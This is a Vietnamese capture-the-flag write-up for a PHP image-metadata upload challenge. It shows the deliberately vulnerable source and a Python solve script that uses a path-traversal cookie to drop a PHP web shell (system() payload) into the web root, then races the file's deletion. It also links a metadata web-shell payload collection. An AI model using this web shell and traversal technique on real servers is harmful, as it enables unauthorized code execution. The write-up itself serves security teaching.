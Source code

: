 ![alt](assets/1.jp)

#####tl;dr: file upload, php web shell, path traversal, racing?

![alt](assets/2.jp)

Source code không có docker, cũng có ít chức năng nên mình chạy trực tiếp luôn (mình sẽ đặt var_dump hoặc echo ở một số chỗ và bỏ phần HTML để tiện cho việc theo dõi trong wu này, phần $uploadpath mình sẽ sửa lại cho tiện với máy hiện tại, không ảnh hưởng nhiều tới đề bài)

```php
<?php
error_reporting(0);
setcookie("user", "BKSEC_guest", time() + (86400 * 30), "/"); // Cookie will be valid for 30 days

if (isset($_FILES) && !empty($_FILES)) {
    // $uploadpath = "/var/tmp/"; // đề gốc
    $uploadpath = "/tmp/";
    $error = "";
    
    $timestamp = time();

    $userValue = $_COOKIE['user'];
    $target_file = $uploadpath . $userValue . "_" . $timestamp . "_" . $_FILES["image"]["name"];
    var_dump($target_file);
    

    move_uploaded_file($_FILES["image"]["tmp_name"], $target_file);
    
    // không cần quan tâm
    if ($_FILES["image"]["size"] > 1048576) {
        $error .= '<p class="h5 text-danger">Maximum file size is 1MB.</p>';
    } elseif ($_FILES["image"]["type"] !== "image/jpeg") {
        $error .= '<p class="h5 text-danger">Only JPG files are allowed.</p>';
    } else {
      $exif = exif_read_data($target_file, 0, true);

      if ($exif === false) {
          $error .= '<p class="h5 text-danger">No metadata found.</p>';
      } else {
          $metadata = '<table class="table table-striped">';
          foreach ($exif as $key => $section) {
              $metadata .=
                  '<thead><tr><th colspan="2" class="text-center">' .
                  $key .
                  "</th></tr></thead><tbody>";
              foreach ($section as $name => $value) {
                  $metadata .=
                      "<tr><td>" . $name . "</td><td>" . $value . "</td></tr>";
              }
              $metadata .= "</tbody>";
          }
          $metadata .= "</table>";
      }
    }
    //
} 
?>
// HTML...
<?php
  // I want to show a loading effect within 1.5s here but don't know how
  sleep(1.5);
  // This might be okay..... I think so
  // My teammates will help me fix it later, I hope they don't forget that
  echo $error;
  echo $metadata;
  unlink($target_file);
?>

// HTML...
```
Sau khi upload. file sẽ được move tới
`$uploadpath . $_COOKIE['user'] . "_" . time() . "_" . $_FILES["image"]["name"]` mà không check chủng gì, vì vậy ta có thể upload file .php, cùng với `$_COOKIE['user']` có thể control => ta có thể path traversal để upload file tới web root mới có thể chạy web shell

Khó khăn nhỏ ở đây có thể là `time()` được nối vào tên file và vị trí của web root, nhưng ta có thể code script chạy là được

Phần `if` sau đó không cần quan tâm do file đã nằm trên server rồi

Sau đó sleep 1.5s và xóa file

=> Vậy ta cần truy cập web shell và chạy lệnh trước khi file bị xóa + biết chính xác tên file


solve.py
```python
import requests
import time

command = "id"

PROXY = {
  "http":"http://127.0.0.1:8010",
  "https":"http://127.0.0.1:8010"
}

url = "http://192.168.116.145:1337"

filename = "clgt.php"

uploadfolders = ["var/www/html/"]
# uploadfolders = ["home/pink/ctf/bkctf2023/web/metadata-checker/metadata-checker/"]
for uploadfolder in uploadfolders:
  timestamp = str(int(time.time()))
  try:
    req = requests.post(
      url = url + "/index.php",
      proxies = PROXY,
      files={
          "image": (filename, f"<?php system('{command}')?>"),
      },
      cookies={
        "user": "../../../../../../" + uploadfolder
      },
      timeout=0.8 # timeout request để gọi shell trước khi bị xóa
      )
  except:
    pass

  req1 = requests.get(
    url = url + "/_" + timestamp + "_" + filename,
    proxies = PROXY,
  )

  if req1.status_code == 200:
    print(uploadfolder)
    print(req1.text)
```

Về phần web root, ban đầu mình định thử một loạt luôn nhưng may mà nó là đường dẫn quen thuộc `/var/www/html` nên ăn luôn phát đầu ♪(´▽｀)


Ở đây mình chạy trên lab luôn, nếu chạy trên server thật thì các bạn có thể upload một cái ảnh trước để căn xem độ lệch của timestamp là bao nhiêu để cộng trừ
![alt](assets/3.jpg)
![alt](assets/4.jpg)


hoặc có thể dùng [Picture Metadata webshell](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Picture%20Metadata) để vừa check timestamp vừa chạy command luôn

![alt](assets/5.jpg)

![alt](assets/6.jpg)

hoặc code đa luồng, tùy